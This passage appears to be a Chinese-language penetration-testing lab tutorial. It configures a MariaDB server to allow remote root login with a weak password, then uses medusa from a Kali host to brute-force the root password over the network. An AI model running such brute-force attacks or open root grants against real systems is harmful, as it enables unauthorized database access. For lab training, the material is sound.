 使用 mysql 数据库

```
MariaDB [(none)]> use mysql;
```

列出数据表

```
MariaDB [mysql]> show tables;
```

打印 user 表的所有结果，查看登录条件

```
MariaDB [mysql]> select * from user\G;
```

授权 root 用户允许远程登录

```
MariaDB [mysql]> grant all privileges on *.* to 'root'@'%'identified by 'mysql' with grant option;
```

退出 mysql

```
MariaDB [mysql]> exit;
```

在 kali 安装 mysql

```
┌──(root㉿Kali-32)-[~]
└─# sudo apt install mariadb-client-core -y
```

验证登录

```
┌──(root㉿Kali-32)-[~]
└─# mysql -u root -h 192.168.1.76 -p
```

> 成功登录，证明实验条件成立

退出数据库

```
MariaDB [(none)]> exit;
```

使用 medusa 爆破，设置线程为 1

```
┌──(root㉿Kali-32)-[~]
└─# medusa -h 192.168.1.76 -u root -P hello.txt -M mysql -F -t 1
```

### 2.4.4 RDP



## 3 离线爆破
